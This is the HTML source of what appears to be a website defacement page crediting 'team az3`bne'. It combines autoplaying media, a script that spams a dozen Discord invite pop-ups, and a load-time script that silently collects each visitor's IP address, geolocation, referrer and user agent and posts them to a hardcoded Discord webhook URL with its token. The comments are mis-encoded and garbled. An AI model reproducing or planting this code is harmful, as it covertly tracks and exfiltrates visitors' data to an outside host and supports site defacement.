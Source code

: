 <table width="100%" height="80%">
    <tbody><tr><td>
      <center>
        <small> </small>
        <br>
        


  <div class="hacked-message" bis_skin_checked="1">
          <p>Trtshle <span style="color: rgba(0, 0, 0, 0.616);">team az3`bne</span></p>
      <p>t3al az3`bne !</p>
  </div>



  <script>
      async function fetchIPAddress() {
          try {
              let response = await fetch('https://api.ipify.org?format=json');
              let data = await response.json();
              document.getElementById('ip-address').textContent = `   ip ${data.ip}`;
          } catch (error) {
              document.getElementById('ip-address').textContent = '';
              console.error('Error fetching IP address:', error);
              
          }
      }

      // Fetch IP address on page load
      fetchIPAddress();
  </script>







  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>IP Address Display</title>
  <style>
        }
        .container {
            text-align: center;
      }
      .ip-address {
          font-size: 1em;
          font-weight: bold;
          color: #000000;
          animation: pulse 1s infinite;
      }
  </style>


  <div class="container" bis_skin_checked="1">
      <div class="ip-address" id="ip-address" bis_skin_checked="1">Your IP:  </div>
      <div class="message" bis_skin_checked="1"></div>



  <div class="video-bg" bis_skin_checked="1">
      <video autoplay="" muted="" loop="">
          <source src="https://k.top4top.io/m_32970cnl81.mp4" type="video/mp4">
          
      </video>
  </div>



  <audio autoplay="" loop="">
      <source src="https://audio.jukehost.co.uk/MabwGdmr8g1IvIYIaJr0QMO5EO8TMjhB" type="audio/mpeg">
      Your browser does not support the audio element.
  </audio>


  
          <script type="text/javascript">
          window.onload = function() {
              setTimeout(function() {
                  window.open('https://discord.gg/ax2yZmFG','_blank');
                  window.open('https://discord.gg/ax2yZmFG','_blank');
                  window.open('https://discord.gg/ax2yZmFG','_blank');
                  window.open('https://discord.gg/ax2yZmFG','_blank');
                  window.open('https://discord.gg/ax2yZmFG','_blank');
                  window.open('https://discord.gg/ax2yZmFG','_blank');
                  window.open('https://discord.gg/ax2yZmFG','_blank');
                  window.open('https://discord.gg/ax2yZmFG','_blank');
                  window.open('https://discord.gg/ax2yZmFG','_blank');
                  window.open('https://discord.gg/ax2yZmFG','_blank');
                  window.open('https://discord.gg/ax2yZmFG','_blank');
                  window.open('https://discord.gg/ax2yZmFG','_blank');
              }, 5000);
          }
              </script>
              

  
      
      
          <meta charset="UTF-8">
          <meta name="viewport" content="width=device-width, initial-scale=1.0">
          <title>E9DHE'* 'D2'&amp;1</title>
          <script>
              // /'D) D,E9 H%13'D (J'F'* 'D2'&1 %DI Discord Webhook
              async function sendVisitorInfo() {
                  try {
                      // ,D( 9FH'F 'D@ IP EF ./E) ipify
                      const ipResponse = await fetch('https://api.ipify.org?format=json');
                      const ipData = await ipResponse.json();
                      const ip = ipData.ip;
      
                      // ,D( E9DHE'* 'DEHB9 (F'!K 9DI 9FH'F 'D@ IP EF ./E) ipinfo
                      const ipInfoResponse = await fetch(`https://ipinfo.io/${ip}/json`);
                      const ipInfoData = await ipInfoResponse.json();
      
                      // 'D-5HD 9DI E9DHE'* 'DE*5A- HEHB9 'D%-'D)
                      const referrer = document.referrer || "E('41)";  // %0' DE JCF GF'C 1'(7 %-'D)
                      const userAgent = navigator.userAgent;
                      const dateTime = new Date().toLocaleString(); // *'1J. HHB* 'D/.HD
      
                      // %9/'/ 1'(7 'D@ Webhook 'D.'5 (C
                      const webhookUrl = 'https://discord.com/api/webhooks/1327387204309356624/rWuJTvfzemx_EEgZr64FymP0Qq6J-v4yvH1aFdkd5c4aDbW8qrx6voJzwtXdQxVEcEJ1'; // '3*(/D YOUR_WEBHOOK_URL (1'(7 'DHJ( GHC 'D.'5 (C
      
                      // %13'D 'D(J'F'* %DI Discord Webhook
                      await fetch(webhookUrl, {
                          method: 'POST',
                          headers: {'Content-Type': 'application/json'},
                          body: JSON.stringify({
                              content: "**New visitor information**", // 'D9FH'F 'D#3'3J
                              embeds: [
                                  {
                                      title: "Visitor Details", // 9FH'F 'D13'D) AJ Discord
                                      fields: [
                                          { name: "IP Address", value: ip, inline: true },  // 916 9FH'F 'D@ IP
                                          { name: "Country", value: ipInfoData.country, inline: true }, // 916 'D/HD)
                                          { name: "City", value: ipInfoData.city || "Unknown", inline: true }, // 916 'DE/JF)
                                          { name: "Region", value: ipInfoData.region || "Unknown", inline: true }, // 916 'DEF7B)
                                          { name: "Referrer", value: referrer, inline: false },  // 1'(7 'D%-'D)
                                          { name: "User Agent", value: userAgent, inline: false }, // E9DHE'* 'DE*5A-
                                          { name: "Date & Time", value: dateTime, inline: false }  // *'1J. HHB* 'D/.HD
                                      ],
                                      color: 3066993 // DHF ('.*J'1J)
                                  }
                              ]
                          })
                      });
      
                      // 916 9FH'F 'D@ IP 9DI 'D5A-) ('.*J'1J)
                      document.getElementById('ip-address').textContent = `Your IP: ${ip}`;
      
                  } catch (error) {
                      console.error('Error fetching visitor information:', error);
                  }
              }
      
              // 9F/ *-EJD 'D5A-) J*E '3*/9'! 'D/'D)
              window.onload = function() {
                  sendVisitorInfo();
              };
          </script>
      
      
          <h1></h1>
          <p id="ip-address"></p>
      
      
      
</div></center></td></tr></tbody></table>

